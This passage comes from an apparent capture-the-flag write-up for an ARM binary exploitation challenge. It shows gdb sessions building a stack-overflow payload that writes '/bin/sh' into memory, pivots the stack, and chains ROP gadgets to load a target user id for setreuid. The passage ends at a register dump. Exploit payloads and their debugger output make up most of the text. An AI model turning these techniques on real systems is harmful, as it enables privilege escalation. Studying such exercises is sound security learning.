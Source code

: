 Awesome! so we're able to write "/bin/sh" to 0x21000.<br>
But, because we set the _fp_ to 0x21044, the _sp_ is set to 0x21040 (```sub	sp, r11, #4```). So, we'll have to pivot the stack a bit, so we'll have control on the _pc_ again.<br>
With the same logic used before, we'll need to write a buffer of 64 bytes (including the "/bin/sh\x00) and then we'll be able to control the _fp_ and the _pc_:
```gdb
(gdb) run < <(python -c "print 'A'*64 + '\x44\x10\x02\x00' + '\x58\x06\x01\x00' + '\n' + '/bin/sh\x00' + 'A'*56 + 'CCCC' + 'DDDD'")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /challenge/app-systeme/ch46/ch46 < <(python -c "print 'A'*64 + '\x44\x10\x02\x00' + '\x58\x06\x01\x00' + '\n' + '/bin/sh\x00' + 'A'*56 + 'CCCC' + 'DDDD'")
Cannot parse expression `.L1185 4@r4'.
warning: Probes-based dynamic linker interface failed.
Reverting to original interface.

Give me data to dump:
Payload is: 
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 44 10 02 
Payload is: 
2f 62 69 6e 2f 73 68 

Program received signal SIGSEGV, Segmentation fault.
0x44444444 in ?? ()
(gdb) 
```
Great! So, we've write "/bin/sh" into 0x21000 and we've regained control on the _fp_ and _pc_.<br><br>
Now, we'll need to set _r0_ and _r1_ to _app-systeme-ch46-cracked_'s id (1246).<br>
If you'll look just above the **setreuid** in **exec** you'll notice that _r0_ is set by _r4_ (```mov	r0, r4```) and _r1_ is set by _r3_ (```mov	r1, r3```).<br>
According to ROPgadget, there are 2 gadgets that may help us - ```pop {r3, pc}``` and ```pop {r4, fp, pc}```. So, let's chain them with our current payload:
```gdb
(gdb) run < <(python -c "print 'A'*64 + '\x44\x10\x02\x00' + '\x58\x06\x01\x00' + '\n' + '/bin/sh\x00' + 'A'*56 + 'CCCC' + '\xf8\x03\x01\x00' + '\xde\x04\x00\x00' + '\xb0\x05\x01\x00' + '\xde\x04\x00\x00' + 'CCCC' + 'DDDD'")
Starting program: /challenge/app-systeme/ch46/ch46 < <(python -c "print 'A'*64 + '\x44\x10\x02\x00' + '\x58\x06\x01\x00' + '\n' + '/bin/sh\x00' + 'A'*56 + 'CCCC' + '\xf8\x03\x01\x00' + '\xde\x04\x00\x00' + '\xb0\x05\x01\x00' + '\xde\x04\x00\x00' + 'CCCC' + 'DDDD'")
Cannot parse expression `.L1185 4@r4'.
warning: Probes-based dynamic linker interface failed.
Reverting to original interface.

Give me data to dump:
Payload is: 
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 44 10 02 
Payload is: 
2f 62 69 6e 2f 73 68 

Program received signal SIGSEGV, Segmentation fault.
0x44444444 in ?? ()
(gdb) info registers
r0             0x7	7
r1             0x0	0
r2             0x1	1
r3             0x4de	1246
r4             0x4de	1246
r5             0x0	0
r6             0x0	0
```